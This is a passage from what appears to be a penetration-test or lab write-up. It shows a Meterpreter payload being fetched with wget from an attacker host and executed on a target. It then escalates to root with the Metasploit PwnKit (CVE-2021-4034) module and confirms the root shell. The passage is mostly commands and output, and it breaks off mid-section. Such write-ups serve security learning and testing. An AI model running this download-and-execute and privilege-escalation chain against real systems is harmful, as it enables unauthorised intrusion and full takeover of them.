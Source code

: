 #### 6.3.3 **Payload Execution on Target**

The payload was uploaded and executed on the target:

```bash
# On target machine
www-data@target:/tmp$ wget http://192.168.74.135:8000/met.elf
www-data@target:/tmp$ chmod +x met.elf
www-data@target:/tmp$ ./met.elf
```

A Meterpreter session was successfully established.

### 6.4 **Root Access via CVE-2021-4034 (PwnKit)**

#### 6.4.1 **Local Exploit Suggester**

The Metasploit Local Exploit Suggester was used to identify viable privilege escalation vectors:

```bash
# In Metasploit console
search suggester
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

The module identified CVE-2021-4034 (PwnKit) as a viable exploit.

#### 6.4.2 **PwnKit Exploitation**

```bash
# In Metasploit console
use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
set SESSION 1
set LHOST 192.168.74.135
set LPORT 8888
run
```

![[Pasted image 20250322160653.png]]
#### 6.4.3 **Root Shell Confirmation**

A root shell was successfully obtained:

```bash
meterpreter > shell
Process 1337 created.
Channel 1 created.
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# whoami
root
```

The shell was upgraded for better functionality:
